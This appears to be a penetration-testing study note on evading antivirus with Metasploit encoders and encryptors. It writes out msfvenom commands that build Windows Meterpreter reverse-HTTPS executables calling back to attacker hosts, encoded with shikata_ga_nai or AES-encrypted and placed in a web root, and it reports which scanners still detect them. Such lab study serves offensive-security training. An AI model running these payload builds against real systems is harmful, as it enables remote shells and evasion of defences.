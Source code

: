 ## Encoders
Metasploit contains a number of _encoders_ that can encode the Meterpreter shellcode, subsequently obfuscating the assembly code.

We begin by running msfvenom with the --list encoders option:
```sh
msfvenom --list encoders
```
which gives us a list of all the available encoders.

The _x86/shikata_ga_nai_ encoder is a commonly-used polymorphic encoder that produces different output each time it is run, making it effective for signature evasion.

We'll enable this encoder with the -e option, supplying the name of the encoder as an argument, and we'll supply the other typical options as shown
```sh
sudo msfvenom -p windows/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 -e x86/shikata_ga_nai -f exe -o /var/www/html/met.exe
```

Since the assembly code has been obfuscated, we'll copy the generated executable to our Windows 10 victim machine and scan it with ClamAV
The result is that **ClamAV detected the encoded shellcode inside the executable.**

**WHY THO?**
 This failed because the encoded shellcode must be decoded to be able to run and this requires a decoding routine. This decoding routine itself is not encoded, meaning it is static each time, making the decoder itself a perfect target for signature detection.

 However, 64-bit applications are relatively newer, we can try encoding a 64-bit shell instead of a 32-bit one:

 ```sh
 sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.49.150 LPORT=443 -f exe -o /var/www/html/met64.exe
 ```
 
 The result is that **ClamAV could not detectethe encoded shellcode inside the executable**

 However, Avira is able to detect it.

 ![](../../../Screenshots/av-detect.png)


 ## Encryptors
 The developers of Metasploit, launched updated options for encryption in 2018, which were designed to address the growing ineffectiveness of encoders for antivirus evasion.

 We start by getting a list of the encoders:
 ```sh
 msfvenom --list encrypt
 ```

 We will create an aes256 encrypted shellcode and use --encrypt-key for custom encryption key as follows:
 ```
 sudo msfvenom -p windows/x64/meterpreter/reverse_https LHOST=192.168.119.120 LPORT=443 --encrypt aes256 --encrypt-key fdgdgj93jf43uj983uf498f43 -f exe -o /var/www/html/met64_aes.exe
 ```

 ![](../../../Screenshots/met64-aes-detect.png)

 However, this doesn't help our situation as our shellcode gets detected anyway.
 This again happens because, this feature is effective for antivirus evasion, but the decryption routine itself can still be detected since it is static.


 ## Conclusion
 Our analysis so far has revealed that encryption will not be effective for bypassing security solutions if the decoding or decryption techniques are static, since they will be analyzed and eventually signatures will be written for them.